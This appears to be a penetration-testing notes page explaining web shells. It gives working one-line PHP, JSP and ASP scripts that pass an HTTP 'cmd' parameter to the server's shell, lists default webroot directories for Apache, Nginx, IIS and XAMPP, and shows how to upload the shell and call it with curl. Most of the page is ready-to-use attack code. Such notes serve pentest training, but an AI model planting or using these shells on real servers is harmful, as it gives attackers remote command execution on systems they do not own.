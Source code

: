# Web Shell

A **Web Shell** is a technique where we upload a script written in the programming language a website is based on, that lets the app accept commands through HTTP request parameters, and pass them to the server's system to be executed by the internal shell.

This process can be done when we have access to the target's root web directory, and we can upload a script to be executed through the web browser.

## <mark style="color:orange;">Basic script</mark>

* Create a script that processes the parameter from the request for the corresponding web language

{% code title="WebShell.php" overflow="wrap" lineNumbers="true" %}
```bash
<?php system($_REQUEST["cmd"]); ?> #PHP server
```
{% endcode %}

{% code title="WebShell.jsp" overflow="wrap" lineNumbers="true" %}
```bash
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %> #Java JSP server
```
{% endcode %}

{% code title="WebShell.asp" overflow="wrap" lineNumbers="true" %}
```bash
<% eval request("cmd") %> #Microsoft .Net server
```
{% endcode %}

* Then upload the script to the webroot directory of the server on the target machine. Some directories for well-known servers are:
  * _/var/www/html/_ for Apache
  * _/usr/local/nginx/html/_ for Nginx
  * _C:\inetpub\wwwroot_ for IIS
  * _C:\xampp\htdocs\\_ for XAMPP

{% code overflow="wrap" lineNumbers="true" %}
```bash
cat $webshellscript > $webroot/$webshellscript
```
{% endcode %}

* Access to the Web Shell by sending a request with the URL parameter defined on the script to send a command as value to execute it

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl http://$IP:$port/shell.php?cmd=$command
```
{% endcode %}
